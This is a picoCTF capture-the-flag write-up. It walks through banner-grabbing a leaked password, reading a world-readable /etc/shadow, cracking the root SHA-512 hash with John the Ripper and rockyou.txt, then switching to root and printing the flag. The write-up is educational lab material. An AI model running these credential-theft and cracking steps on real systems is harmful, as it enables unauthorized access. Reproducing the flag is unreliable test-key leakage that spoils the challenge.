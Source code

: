 # dont-you-love-banners

## General

### Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 56016. Use the leaked information to get to the server.  To connect to the running application use nc tethys.picoctf.net 62001. From the above information abuse the machine and find the flag in the /root directory.

Based on the text, we need to go to port 56016 first.  It doesn't prompt to use `nc`, but when I'm given a host and port it's my go to.

```sh
$ nc tethys.picoctf.net 56016
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

```

Excellent, the password is right there. Off to the other endpoint.

```sh
$ nc tethys.picoctf.net 62001
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
```
Wait! You didn't say there would be a quiz! :rage:

```sh
What is the top cyber security conference in the world?
DefCon
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
W00t!  [John Draper](https://en.wikipedia.org/wiki/John_Draper) is also known as Captain Crunch.  Know your hacker history!  

Alright!  We have a prompt.

```sh
player@challenge:~$ whoami
whoami
player
player@challenge:~$ pwd
pwd
/home/player
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner  
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -l /root
ls -l /root
total 8
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root/script.py
cat /root/script.py
```
```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Nothing obvious there.  Next step is to start looking for misconfigurations.

There was no /etc/crontab, and no executable that's overly permissive.

```sh
$ crontab -e
crontab -e
-su: crontab: command not found

$ find / -type f -perm -04000 2>/dev/null
find / -type f -perm -04000 2>/dev/null
/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```
Fingers crossed....

```sh
player@challenge:~$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 855 Mar  9  2024 /etc/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
[REDACTED Entries Without Password Hash To Save Space]
player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::
```

Yes!  Note: /etc/shadow should never be readable by anyone but root!  The /etc/shadow file is where Linux stores the hashed password value.  That hash value for the root password follows 'root:'.  
Based on the '$6$' you can find this is a SHA512 hash.  

A hash is a one way algorithm.  In this case it converts a plaintext password to something completely (and hopefully uniquely) different.  Once the password is hashed, the system has no means of knowing what the password was.  When you log in and supply your password, the system hashes the value you submit and compares it with what's in the file.  If it matches, you gave the correct password.  This is good and bad.  The bad part is that whatever value I input will always return the same hashed output.  The good part is, if you use a unique password it's unlikey it will be found in a list of leaked passwords. These lists are frequently used with password crackers like HashCat, or John the Ripper.  For this exercise, we'll use the latter but both have their pros and cons.  We'll use a password list called rockyou.txt.  This password list was created from a data breach of the company [RockYou](https://en.wikipedia.org/wiki/RockYou).  It contains over 14 million unique passwords pulled from that breach.

I copied the root line from /etc/shadow into a file called root_pw.txt

```sh
$ john -w=/usr/share/wordlists/rockyou.txt root_pw.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou         (root)     
1g 0:00:00:00 DONE (2025-06-25 15:59) 7.692g/s 4923p/s 4923c/s 4923C/s 123456..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

:joy: :joy:

Now to switch to the root user:

```sh
player@challenge:~$ su - root
su - root
Password: iloveyou

root@challenge:~# cat /root/flag
root@challenge:~# cat /root/flag.txt
cat /root/flag.txt
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}**
